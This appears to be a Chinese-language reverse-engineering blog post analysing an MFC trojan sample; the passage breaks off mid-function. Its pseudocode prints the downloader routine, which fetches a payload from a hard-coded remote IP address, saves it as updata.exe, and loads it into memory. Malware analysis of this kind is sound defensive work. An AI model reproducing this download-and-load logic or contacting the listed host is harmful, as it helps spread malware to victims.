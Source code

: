 ```yaml
---
layout: post
title: "[reverse] 记一次木马分析"
categories: "ReverseEngineering"
---
```


#### 0x00 前言

获得一个样本，简单了解为MFC的程序，以下是分析过程的一些总结，目的是为了了解这个程序到底做了什么。

第一次分析确实很乱，主要由于没有分析出程序的主功能，而且大部分的功能操作都是通过读取远程服务器的那个文件内容来操作。

#### 0x01 流程分析 ####

AfxWinMain ---> initinstance ---> domodal ---> AfxDlgProc ---> OnInitDialog ---> trojan_download

trojan_download函数执行流程：

伪代码：

	trojan_download(CDialog *this) {
		typedef DWORD (CALLBACK *LPFNREGISTER)(DWORD,DWORD);
		char *FileName = "C:/Program Files/Internet Explorer";
		char *LibFileName = "/updata.exe";
		strconcat(FileName, LibFileName);
		if (GetFileAttributesA(&FileName) == -1) {
			HMODULE hModule = LoadLibraryA("urlmon.dll");
			LPFNREGISTER lpfnRegister = GetProcAddress(hModule, "URLDownloadToFileA");
			char *Trojan = "http://121.14.212.211:800/updata.dat";
			URLDownloadToFileA(0, Trojan, FileName, 0, 0);
			sub_402320(FileName);
		} else {
			HANDLE hOpenfile = CreateFileA(lpFileName, 
							FILE_FLAG_WRITE_THROUGH,
							0,
							0,
							3u,
							0x80u,
							0);
			result = sub_402260(hOpenfile, "SSSSSSVID");
			if ( result && !strcmp(result+0xa, "2018-V1"))   // 文件头部偏移0xa是否为2018-V1
				sub_402320(fOpenfile);		// 加载updata.exe
		}
	}

sub_402320伪代码：

	sub_402320(const char * filename) {
		char *lpFileName = filename;
		while(1) {
			HANDLE hOpenfile = CreateFileA(lpFileName, 
							FILE_FLAG_WRITE_THROUGH,
							0,
							0,
							3u,
							0x80u,
							0);
			DWORD dwFilesize = GetFileSize(hOpenfile, 0);
			char *LibFileName = "KERNEL.dll";
			char *ProcName = "VirtualAlloc";
			HMODULE hModuleKernel = LoadLibraryA(LibFileName);
			LPFNREGISTER lp = GetProcAddress(hModuleKernel, ProcName);
			void *pMem = lp(0, dwFileSize, MEM_RESERVE|MEM_COMMIT, 4);
			ReadFile( hOpenfile, pMem, dwFileSize, &NumberOfBytesRead, 0);
			CloseHandle(hOpenfile);
